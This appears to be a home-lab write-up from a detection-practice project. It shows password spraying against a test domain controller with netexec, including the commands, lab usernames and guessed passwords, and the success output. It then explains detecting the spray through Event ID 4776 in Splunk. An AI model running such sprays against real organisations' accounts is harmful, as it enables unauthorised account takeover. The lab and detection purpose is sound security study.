



# Password Spraying — Attack & Detection

**Attack #2 of 5** · [Back to overview](README.md)

## What this attack is

Password spraying is the opposite of what most people picture when they hear "brute force." Instead of trying thousands of passwords against **one** account, you try **one** (or a couple of) commonly-used password against **many** accounts at once.

Attackers prefer this because most networks lock an account out after several wrong password attempts *on that one account*. Spraying one guess across many different usernames usually stays under that lockout threshold entirely, while still being very likely to land on at least one person who used a weak, guessable password.

## How I ran it

I used `netexec` (the modern, actively-maintained version of the older `crackmapexec`), targeting DC01 over SMB with a list of my test usernames.

First, a simple list of usernames:
```
hazelnut
clatte
pcaramel
svc_sql
```

Then I ran the spray, trying one guessed password across every username in the list:

```
netexec smb 10.10.10.10 -u users.txt -p 'Welcome123!'
```

### Result

```
SMB  10.10.10.10  445  DC01  [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:lab.local)
SMB  10.10.10.10  445  DC01  [-] lab.local\hazelnut:Welcome123! STATUS_LOGON_FAILURE
SMB  10.10.10.10  445  DC01  [-] lab.local\clatte:Welcome123! STATUS_LOGON_FAILURE
SMB  10.10.10.10  445  DC01  [+] lab.local\pcaramel:Welcome123!
```

The `[+]` on the last line means success, `Welcome123!` really was `pcaramel`'s password. I didn't know that in advance, this is the attack actually working.

I ran it a second time with a different guess, and it also hit:
```
netexec smb 10.10.10.10 -u users.txt -p 'Hazellnut@123'
```
```
SMB  10.10.10.10  445  DC01  [+] lab.local\hazelnut:Hazellnut@123
```



Both results are realistic in their own way: `pcaramel`'s password was simply a common, guessable phrase, while `hazelnut`'s password (`Hazellnut@123`) contains the username itself, a very common real-world mistake, and exactly the kind of pattern password policies try to block.

## Checking the detection side

### First attempt (what I got wrong)

My first instinct was to search for event codes **4624** (successful logon) and **4625** (failed logon), since those are the standard "logon" events. That search came back empty.

### What was actually happening

SMB-based credential checks like this don't generate 4624/4625. They generate a different event:

> **Event ID 4776 — "The computer attempted to validate the credentials for an account."**

This event fires specifically for **credential validation** (checking if a username/password pair is correct), which is exactly what `netexec`'s SMB login attempts trigger, regardless of whether the login ultimately succeeds or fails.

### The correct search

```
index=main host=DC01 source="WinEventLog:Security" EventCode=4776 earliest="10/08/2026:02:55:00" latest="10/08/2026:03:10:00"
```



### Reading one event closely

```
EventCode=4776
TaskCategory=Credential Validation
Authentication Package: MICROSOFT_AUTHENTICATION_PACKAGE_V1_0
Logon Account:  hazelnut
Source Workstation:
Error Code:     0x0
```

- **Logon Account** is the username being checked
- **Error Code: 0x0** means it **succeeded**. A failed attempt would show a different, non-zero code instead
- **Authentication Package: MICROSOFT_AUTHENTICATION_PACKAGE_V1_0** means this was NTLM authentication (what SMB typically uses), not Kerberos
- **Source Workstation** is blank here. This is a real limitation: this field doesn't always populate for NTLM credential validation, so I can't directly see Kali's IP address inside this one event. I can still tie it to the attack by matching the timestamp against my own notes of when I ran the command



## What actually proves this was a "spray" and not just a normal login

A single 4776 event with `Error Code: 0x0` just looks like someone logging in normally. What makes it a **spray** is the *pattern* across multiple events:

- Several 4776 events within the same second or two
- **Different usernames** being checked in that tight window
- A mix of failures (wrong guesses) and at least one success

That pattern, many accounts, one narrow time window, is something no normal person's daily login behavior produces. This is exactly the kind of thing a real detection rule would alert on: "more than N distinct `Logon Account` values triggering EventCode 4776 from the same timeframe."

## Mistakes I made (left in on purpose)

- **Searched the wrong event ID first** (4624/4625 instead of 4776). Credential validation and logon session creation are two different things in Windows, and they're logged separately.
- **Used too wide a search window at first** (`earliest=-24h`), which pulled in unrelated events from a different day and made it harder to spot the actual spray cluster. Narrowing to the exact attack window made the pattern immediately clear.
- **Lost Splunk connectivity partway through testing** (see the Environment Setup doc's troubleshooting section), which meant some of my very first spray attempts were never actually captured. I re-ran the attack after confirming the pipeline was healthy again, a good reminder to always verify your detection pipeline is alive *before* trusting a "no results" search.

## Takeaways

- Not all credential attacks show up as 4624/4625, SMB-based checks specifically log as 4776, a detail that's easy to miss if you only know the "textbook" event IDs
- Detecting spraying is about **pattern**, not any single event, one failed login means nothing on its own
- The missing `Source Workstation` field is a real gap, in a production environment, you'd want to also pull SMB/network logs (or Sysmon) to reliably tie an event back to an attacker's IP

---
**Previous:** [Nmap Scan — Attack & Detection](02-nmap-scan.md)
